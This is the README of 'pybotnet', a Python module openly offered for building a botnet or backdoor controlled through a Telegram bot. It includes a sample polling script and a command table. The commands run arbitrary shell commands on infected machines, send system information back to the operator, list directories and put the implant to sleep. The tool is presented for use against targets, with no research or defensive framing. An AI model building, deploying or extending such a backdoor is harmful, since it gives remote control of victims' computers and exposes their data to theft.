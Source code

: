 # pybotnet  0.1

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac :Not tested

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this COMMANDs to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first:* \
 `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | Works well on: |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep \<scconds> \<message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd \<system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in wiindows or `ping google.com` in linux)| 0.07 | windows, linux(test need) |
`ls \<route>` | `ls C:\ , ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
